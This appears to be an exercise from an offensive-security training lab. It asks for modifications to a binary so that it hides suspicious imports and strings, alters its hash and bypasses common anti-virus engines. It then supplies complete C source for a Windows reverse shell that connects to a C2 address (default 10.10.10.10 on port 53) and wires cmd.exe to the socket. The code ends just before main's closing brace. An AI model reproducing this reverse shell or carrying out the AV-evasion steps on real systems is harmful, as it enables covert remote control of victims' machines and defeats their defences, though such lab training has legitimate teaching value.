 Note: In general, You should run automated obfuscation or less specific obfuscation methods after specific signature breaking, however, you will not need those techniques for this challenge.

Taking these notes into consideration, modify the provided binary to meet the specifications below.

1. No suspicious library calls present
2. No leaked function or variable names
3. File hash is different than the original hash
4. Binary bypasses common anti-virus engines

Note: When considering library calls and leaked function, be conscious of the IAT table and strings of your binary.

```c
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>

#define DEFAULT_BUFLEN 1024

void RunShell(char* C2Server, int C2Port) {
        SOCKET mySocket;
        struct sockaddr_in addr;
        WSADATA version;
        WSAStartup(MAKEWORD(2,2), &version);
        mySocket = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
        addr.sin_family = AF_INET;

        addr.sin_addr.s_addr = inet_addr(C2Server);
        addr.sin_port = htons(C2Port);

        if (WSAConnect(mySocket, (SOCKADDR*)&addr, sizeof(addr), 0, 0, 0, 0)==SOCKET_ERROR) {
            closesocket(mySocket);
            WSACleanup();
        } else {
            printf("Connected to %s:%d\\n", C2Server, C2Port);

            char Process[] = "cmd.exe";
            STARTUPINFO sinfo;
            PROCESS_INFORMATION pinfo;
            memset(&sinfo, 0, sizeof(sinfo));
            sinfo.cb = sizeof(sinfo);
            sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
            sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) mySocket;
            CreateProcess(NULL, Process, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);

            printf("Process Created %lu\\n", pinfo.dwProcessId);

            WaitForSingleObject(pinfo.hProcess, INFINITE);
            CloseHandle(pinfo.hProcess);
            CloseHandle(pinfo.hThread);
        }
}

int main(int argc, char **argv) {
    if (argc == 3) {
        int port  = atoi(argv[2]);
        RunShell(argv[1], port);
    }
    else {
        char host[] = "10.10.10.10";
        int port = 53;
        RunShell(host, port);
    }
    return 0;
```